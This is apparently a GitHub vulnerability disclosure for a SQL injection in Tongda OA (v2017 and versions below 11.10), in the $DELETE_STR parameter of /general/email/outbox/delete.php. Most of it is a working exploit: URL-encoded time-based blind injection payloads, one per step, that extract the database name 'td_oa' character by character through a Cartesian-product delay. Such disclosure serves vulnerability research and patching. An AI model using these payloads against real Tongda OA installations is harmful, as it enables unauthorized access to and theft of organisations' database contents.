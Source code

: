 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![](https://github.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/t1.png)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094241423.png?token=GHSAT0AAAAAACNLZOLMRBD2RD2Y7S3XAX2CZNTDPEQ)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094806730.png?token=GHSAT0AAAAAACNLZOLM7QTEEQQ5Z6IJUFRKZNTDPGQ)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095114500.png?token=GHSAT0AAAAAACNLZOLM7JYOCBZA227JNCQSZNTDPIA)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095822818.png?token=GHSAT0AAAAAACNLZOLMUQBW3GOCONLUXVEMZNTDPKA)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095911470.png?token=GHSAT0AAAAAACNLZOLNNVSMUA42M2W6UASGZNTDQKQ)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100122531.png?token=GHSAT0AAAAAACNLZOLNOH24CMBG7JKGSIU2ZNTDT2A)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ)

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa
